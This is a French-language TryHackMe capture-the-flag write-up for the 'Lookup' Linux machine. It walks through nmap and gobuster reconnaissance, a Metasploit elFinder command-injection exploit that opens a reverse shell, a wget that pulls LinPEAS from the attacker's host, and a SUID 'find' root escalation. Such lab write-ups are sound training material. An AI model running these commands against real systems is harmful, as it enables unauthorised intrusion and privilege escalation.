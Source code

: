 # **TryHackMe - Lookup Write-Up**  
> **Difficulté** : Facile  
> **OS** : Linux  
> **Auteur** : HelloLou  
> **Date** : 30/01/2025
> 
## 🔍 Introduction
Ce write-up détaillé de la machine **Lookup** sur **TryHackMe** explique comment exploiter **elFinder PHP** pour obtenir un shell et escalader les privilèges jusqu'à `root`.

Voici les outils necessaires: nmap, gobuster, burpsuite, metasploit, linpeas
---

## **🖥️ 1. Reconnaissance**  
### 🔍 **1️⃣ Scan Nmap**
On commence par scanner la machine avec **Nmap** pour voir les ports ouverts :  
```bash
nmap -sC -sV -oN scan.txt 10.10.16.70
```
🔹 **Explication** :  
- `-sC` : Lance des scripts de détection par défaut.  
- `-sV` : Identifie les versions des services.  
- `-oN scan.txt` : Sauvegarde les résultats dans un fichier.

**Résultat :**
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (Ubuntu)
80/tcp   open  http     Apache httpd 2.4.29
```
👉 On remarque que **SSH (22)** et **HTTP (80)** sont ouverts.  

---

## **🌐 2. Enumeration Web**  
### 🔹 **Accès au site web**
On ouvre **http://lookup.thm/** dans le navigateur.  
Le site affiche une page basique sans information importante.

### 🔹 **Fuzzing des sous-domaines avec Gobuster**
On va chercher des **sous-domaines cachés** avec **Gobuster** :
```bash
gobuster vhost -u http://lookup.thm/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```
**Résultat :**
```
Found: files.lookup.thm (Status: 200)
```
👉 Un sous-domaine **files.lookup.thm** existe !  

### 🔹 **Ajout dans `/etc/hosts`**
On ajoute ce sous-domaine pour pouvoir y accéder :
```bash
sudo nano /etc/hosts
```
Ajoute cette ligne :
```
10.10.16.70  lookup.thm files.lookup.thm
```

### 🔹 **Accès à `files.lookup.thm`**
En visitant **http://files.lookup.thm/**, on voit une **interface de gestion de fichiers** (elFinder).  
👉 **elFinder est connu pour avoir des vulnérabilités !**

---

## **🚀 3. Exploitation - Command Injection**
### 🔹 **Recherche d'une Exploitation Possible**
On cherche sur Google :  
**"elFinder PHP Connector exploit"**  
➡️ On trouve que la version de **elFinder** utilisée ici est vulnérable à une **command injection** via `exiftran`.

### 🔹 **Exploitation avec Metasploit**
On utilise **Metasploit** pour automatiser l'exploitation :
```bash
msfconsole
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOSTS 10.10.16.70 (VPN tryhackme)
set TARGETURI /php/connector.php
set LHOST Ici Ton IP Tun0 (VPN)
set LPORT 4444
run
```
💥 **Shell obtenu !**  (n'oubliez pas de l'activer si vous êtes sur meterpreter, en tapant: shell)
```
meterpreter > whoami
www-data
```
👉 On a un shell avec l’utilisateur **www-data**.

---

## **🛠️ 4. Escalade de Privilèges**
On veut passer de **www-data** à **root**.  
On lance **LinPEAS** pour détecter des failles :
```bash
wget http://10.11.125.223:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
🔹 **LinPEAS détecte un fichier SUID suspect :**
```
/usr/bin/find has SUID bit set
```
On regarde dans **GTFOBins** si `find` peut être exploité pour devenir root :
```bash
find . -exec /bin/sh -p \; -quit
```
💥 **Root obtenu !**
```bash
whoami
root
```

---

## **🏆 5. Capture du Flag**
On récupère les flags :  

🔹 **User flag** :
```bash
cat /home/user/user.txt
```
🔹 **Root flag** :
```bash
cat /root/root.txt
```

---

## **🎯 Conclusion**
✅ **Méthodologie utilisée :**
1. **Nmap** → Ports ouverts.
2. **Gobuster** → Trouver un sous-domaine caché.
3. **Exploit elFinder** → Command Injection avec Metasploit.
4. **LinPEAS** → Trouver un binaire SUID exploitable.
5. **GTFOBins** → Élever les privilèges et devenir root.

💡 **Leçon apprise :**
- **Ne jamais ignorer les sous-domaines** !
- **Toujours tester les applications web pour des exploits connus.**
- **LinPEAS + GTFOBins = Escalade de privilèges efficace !**

---

